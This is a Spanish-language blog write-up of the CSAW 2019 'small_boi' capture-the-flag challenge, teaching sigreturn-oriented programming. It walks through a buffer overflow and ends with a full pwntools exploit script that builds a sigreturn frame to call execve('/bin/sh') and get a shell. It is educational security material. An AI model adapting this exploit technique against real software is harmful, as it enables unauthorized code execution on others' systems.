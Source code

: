 ```yaml
---
layout: post
title: WRITEUP, small_boi csaw19, aprendiendo SROP
date: 2020-07-14 00:00
comments: true
categories: [Sin categoría]
---
```

<!-- wp:paragraph -->
<p>Tenía guardado este writeup, para hablar de SROP, pero justo el ctf de <a href="https://www.linkedin.com/showcase/convid/?viewAsMember=true">convid</a>, me pilló con un desafío en el que <a href="/writeup-scandinavian-journal-of-psychology/">ocupe esta técnica</a>, de todas formas y para que no se pierda aca les dejo el writeup. Es un binario del ctf <a href="https://ctftime.org/event/870">CSAW 2019</a> de 100 puntos llamado “small_boi” (pueden descargarlo de <a href="https://github.com/dplastico/small_boi/blob/master/small_boi">aca</a>) el cual resolveremos usando la técnica de sig return oriented programming.&nbsp;<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Y Bueno que es <a href="https://en.wikipedia.org/wiki/Sigreturn-oriented_programming">SROP</a>?&nbsp; Es una técnica usa en caso de estar presente a un escenario en el cual tenemos protección NX activada y usamos el syscall sig return para “limpiar” el stack frame (me perdonaran no se me ocurre mejor forma de explicarlo) permitiéndonos asignar a cada registro al valor que deseemos.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":217} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/07/image.png" alt="" class="wp-image-217" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Por que existe un syscall así se preguntaran? Pues para que el kernel por ejemplo en momento de ejecución pueda retornar el estado de un programa al retornar de otra syscall por ejemplo. Más detalles pueden encontrar <a href="https://man7.org/linux/man-pages/man2/sigreturn.2.html">aca</a><br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Bueno con esto en mente pasemos a la accion!<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Podemos observar que es un binario de 64 bits staticamente linkeado a libc, y que solo cuenta con la proteccion NX activada.<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/PcXEFJ-Hl96nfRubXWkIGaCcVlilAEiTTlc3IptF966sE7J8ncWPcB1S0EUUrkLZmFfSOfy0T7S3JRU1QZNdFbvF6hwbhweq0z8GmcoSsrN7XaVFjgg3AduiJlFt3hjNBh1TFSg-" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>El binario simplemente espera un input y luego parece cerrarse, es un binario pequeno aparentemente programado en ASM o muy poco codigo, revisemos en más detalle en IDA…<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/knYNsqmyDfslA2WiFm8mF4vDrw2d2kRa1JSOgEBWs0t7ge4EP4okkeORshOLNErB4fAxX7sg15XX7U29bofqJpzOp7ZvcMKu1ltVdCzfSeel3YlvHzFwgknZGZ8R5etk8M3CC1QQ" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>El entry point nos muestra que llama a una función en 0x40018C la cuyal renombrare a vuln, luego de eso vemos un syscall a 0x3c lo cual nos indica un exit inmediatamente después analicemos la función mencionada.<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/Mk8f2D_66EjBGSRlDb4b4YlY60S-OubWZwYAZ27tkGbZKW2LlGp_3ai8w5E85AcIX1lNtdn_oIPAs8RL2h39q2yZodb7-0nyvnwA8oyyXonMMkOHm10HadeSB1Mtm-fmKGvynuKD" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Aca podemos ver cómo ocurre la vulnerabilidad, setea un buffer de 20 hex, luego realiza un xor sobre los registros rax y rdi para dejarlos en cero. Esto para que rax apunte al syscall 0 (read) y rdi apunte al stdin (0). El problema es nuestro RDX que indica el tamaño del input que leeremos el cual es de 200, mucho más de los 20 hex que tenemos disponibles, lo que causará un buffer overflow.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Explorando el binario vemos otras cosas interesantes como el string /bin/sh dentro del binario (nos servira despues)<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/7l142MrvlkF7Z7BSFbVNlC-uoOa7jQIeSumiSaiqAfuDTieHovsgyT1rmrJNUFxIBgOEgbBBraBqqVl5gLOGKWvKXwRtHK4bEisp5IgVTovFcf6WEkKd63ggsGZF9LXX0BQBUc_1" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Además del call a sigreturn en 0x40017c, el cual nos permitirá hacer esta llamada, la cual bien podría considerarse un “one gadget”<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/vP2qAHvIUnf1aDLG8nYNuDVpvwm0lOTFiynjDn2TxB-zPrB5vQWck6mCAZQza9w-sUXqVaHNb5NxertQBgL111U-KENPw7NJkwRC1dNIx_g1a4WUe0Hw1R0TH-yuLLE5-dTzdzVo" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Con esto en mente, hagamos un script para interactuar con el binario, comenzamos con algun setup inicial:<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/4VKXk78s0DFFXjbgT_oTj10Si9X9KpeksDc0q7YfE_Wbg0-9dZu_EmixH2stDZk-OvnMPeqVt9DA4kZCjEOGzn1UJ-mXimczMwMdKt2gQH5fd4A_XwuYV0Y3y4hpX3qKts120dwb" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ahora, rápidamente en gdb (lo estoy usando con pwndbg) con cyclic vemos que el offset en el que crashea el programa (40 bytes, 8 + de los 32 a los que se termina el buffer, algo típico de overflow en 64 bits)&nbsp;<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/pT743iRyUgAxau-61u6MwiPIx8MS2HErK149M2f6IjwN4mTUCb7WrxtJS-j_xGhNCyxc3uEeXrJ4z1VafNBC5arQI2MrVWMuD5YLc0N_tiINQ1KcHs5Et3_d7hoQGRSO1QghiAyi" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Pues bien con esto no queda nada más que armar el exploit, sabemos que tenemosla direccion de sigreturn entonces creamops el frame usando la <a href="https://docs.pwntools.com/en/stable/rop/srop.html">magia de pwntools</a> (vaya trabajo de hacer manual si alguien quiere experimentarlo puede ver el stream de este <a href="https://www.youtube.com/watch?v=L259SbpYtXM">master</a>!)</p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/0lO3WYfUdW7IdCMTk1kgXI8oqPq2hbz4j9E3FFKAwRuGgGxD1oCh5_M7y1A7mohYSvgcEV4zJQgMtVGEppJIZtFIcE4vhnYdbMCOl9hD_EOh15chHZmQSwWPoFy92CxNBE0bgSrx" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ahora que setamos en esos registros? Pues sabemos que tenemos el string de /bin/sh en el binario por lo que podemos setearlo como argumento en RDI y llamar a execve poniendo el registor RAX en x3B, ademas debemos setear RSI y RDX a null y finalizar situando la ejecucion (RIP) en la llamada a un syscall, tenemos todo lo que necesitamos menos el address de un syscall, pero que podemos obtener facilmente mirando IDA (recordemos que el binario no tiene ASLR) o bien usando ropper, la cual obtenemos en la direccion 0x400185<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/rwx8e8sqKT16qspueRZ7n1tXqVOohKUGUfYezNKjasDKg_p6MSWC3Pbbi1XmmdiN9YQzQ8Qncj7BXp0q18IRKjsykWfqjw_rnY5HPmZo5b0ytXFbS79JZDQ2T2DaBIxfv0-p1l0e" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Perfecto ya tenemos todo lo que necesitamos! Probemos… Algo ocurre y obtenemos on EOF&nbsp;<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/NwkNv3xHwoXo3ODFDQsJUO-ObRO1gq9TMj539GZKpxbmoeT32GWUnJX_3z5D73xGLvtxR0rRLB_ZAJUL6tci5RfI50zL5lGn__0oe1QrFRz_pvW8xTwp_s0qqUFpGKMlqVribZTt" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/mIo09j22qcK42RRJWF3AsNr9DERS7y7o2CgboV3lZy_mUf9gmYF16YgOIbTHdUrxK7KBwlSc1fYUSIlHQvcArJJJyi1TYQASbQUch5LdgfSQkemtr7xcxwJrcH7tdiyfJVKsRdss" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Al observar podemos ver que los valores de los registros no estan bien, y parecen haberse corrido (shifted) por lo que despues de mucho rato note que los registros tiene un “shift” de 8 bytes, dentro del frame podremos moverlo, probemos una vez mas<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/RJtvZrky6QKbVDq0gmJm141qprwW_jOIoCOg9runwzmDl6eiujM-XjIiWlOMw9ohx0PcKi1YCg5bXgbSeKBTSA8gAhnMlzosKC79Hj42qnZB_FQqx4qTq4BQtIob2gjsqv-mlnZC" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Esta vez los registros si se acomodan! perfecto<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/hmtlqaCEHLpSUDDtSc29RxvAHS7Xr_zuCGEEpSFLGigyw88kB4RqYR4SZFqUxpxxFtz-L_CKHu07woVKRqRmKPiEROjnNLXv8l6mS39_w6Gw7SL7B5U22eMn2nQR6ZmAC503p3oD" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Con eso ejecutamos y shell:<br></p>
<!-- /wp:paragraph -->

<!-- wp:image -->
<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/idPIGbwammzaMnXWaX4K1azXpowY7TiSXowmYoFiAZbsEYbkjDKFOPuqS8UyxQaZ2vytgrjSaz_7nKMShhxWoTLckk1v00MhsRQ3VtEwapJI8VzW6C48g9wZD_gDfODxop5LYNra" alt="" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Espero que les haya gustado esta técnica de explotación, en lo particular parece una buena técnica para ctfs, especialmente cuando nos enfrentamos a algunas restricciones dentro de libc para llamar one_gadet.<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Aca les dejo el exploit final:</p>
<!-- /wp:paragraph -->

```python
from pwn import *

# info del binario
context.binary = './small_boi'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']
#funcion para correr el binario
def start():
    if args.GDB:
        return gdb.debug('./small_boi')

    else:
        return process('./small_boi')

sigret = p64(0x40017c) #sig return address

frame = SigreturnFrame() #sigreturnframe funcion de pwntools para crear el frame
frame.rip = 0x400185 #syscall, no empaquetamso ya que el frame poondra el valor directo en el registro
frame.rax = 0x3b #0x3b es el numero de syscall de execve()
frame.rdi = 0x4001ca #direccion de /bin/sh no ocupamos empaquetado por los mismo que el rip
frame.rsi = 0x00 # null 
frame.rdx = 0x00 # null


payload = "A" * 40 #offset
payload += sigret #direccion de sigretur
#nuevo frame, con shift de 8 por el cambio del stack
#vi otros writeups y no se si esto le paso a todo el mundo, a mi me ocurrio con ubuntu 18.04
payload += str(frame)[8:] 

#interaccion con el binario
r = start()
r.sendline(payload)
r.interactive()
```
<!-- /wp:code -->
